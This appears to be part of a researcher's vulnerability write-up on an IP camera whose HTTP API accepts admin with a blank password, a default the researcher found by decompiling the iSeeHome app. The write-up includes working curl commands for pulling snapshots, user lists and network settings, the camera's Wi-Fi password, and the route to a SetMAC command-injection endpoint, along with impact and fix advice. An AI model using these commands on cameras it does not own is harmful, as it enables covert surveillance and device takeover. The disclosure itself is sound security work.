

# Part 2: The API Accepted `admin` with an Empty Password

This one is not as fun as command injection, but it mattered a lot in practice.

The camera API was not completely unauthenticated. It used HTTP Basic authentication. The problem is that the companion app exposed default credentials, and the tested device accepted them:

```text
username: admin
password: <empty>
```

That means a request like this worked:

```bash
curl -v -u 'admin:' http://172.14.10.1/snapshot.jpg -o snapshot.jpg
```

For an IP camera, that is already bad because it gives access to snapshots. In this case it was worse because the same credential also let me reach the factory API surface where the `SetMAC` command injection lived.

## Finding the credentials

I wanted to understand how the camera was supposed to be configured, so I looked at the Android app. The app I found for the device was `iSeeHome`.

Loading the APK into `jadx` and searching for authentication strings led to constants like this:

```java
// com.zasko.commonutils.helper.CommonConstant
public static final String DEFAULT_DEVICE_USER = "admin";
public static final String DEFAULT_DEVICE_PWD = "";
```



That matched the device.

I then used those credentials against the local HTTP API:

```bash
CAM=172.14.10.1
AUTH='admin:'

curl -v -u "$AUTH" "http://$CAM/snapshot.jpg" -o snapshot.jpg
curl -v -u "$AUTH" "http://$CAM/NetSDK/Video/encode/channel/101/snapshot" -o ch101.jpg
curl -v -u "$AUTH" "http://$CAM/NetSDK/Video/encode/channel/102/snapshot" -o ch102.jpg
```

Those worked.

Other API-style paths were reachable too:

```bash
curl -v -u "$AUTH" "http://$CAM/cgi-bin/hi3510/echo.cgi"
curl -v -u "$AUTH" "http://$CAM/cgi-bin/hi3510/param.cgi?cmd=getvencattr"
curl -v -u "$AUTH" "http://$CAM/cgi-bin/hi3510/param.cgi?cmd=getimageattr"

curl -v -u "$AUTH" "http://$CAM/user/user_list.xml"
curl -v -u "$AUTH" "http://$CAM/NetSDK/Network/interface"
curl -v -u "$AUTH" "http://$CAM/NetSDK/Network/interface/4/wireless"
curl -v -u "$AUTH" "http://$CAM/NetSDK/Network/interface/4/lan"
```

## The Wi-Fi side made this easier

After reset, the camera broadcast its own AP:

```text
IPCS4E17695565860
```

The camera was reachable at:

```text
172.14.10.1
```

The AP password I found during testing was:

```text
11111111
```

So the practical path was:

```text
connect to camera Wi-Fi
        |
        v
use admin:<empty> for HTTP Basic auth
        |
        v
access camera APIs
        |
        v
reach /NetSDK/Factory?cmd=SetMAC
```

## Why I think this deserves to be called out separately

The blank/default credential is not the same root cause as the `SetMAC` command injection.

`SetMAC` is vulnerable because a string becomes shell syntax.

The credential issue is different: privileged local APIs accept a predictable account that the app itself reveals.

Even if the command injection is patched, the default credential still exposes camera functionality. Even if the credential issue is fixed, the command injection still needs to be fixed.

## Impact

With the default credential, a local attacker on the camera network could access things like:

- snapshots,
- camera configuration paths,
- network interface information,
- factory-style API commands,
- and the vulnerable `SetMAC` endpoint.

For a camera, snapshots alone are a confidentiality issue. The factory API access adds integrity and availability concerns because it exposes device-management functions.

## Fix

The device should not ship with a blank admin password. Setup should force a unique password before exposing local APIs.

At minimum:

- disable blank passwords,
- require a per-device random credential or setup-time password,
- avoid storing reusable default credentials in the mobile app,
- and make sensitive factory APIs unavailable in normal production mode.
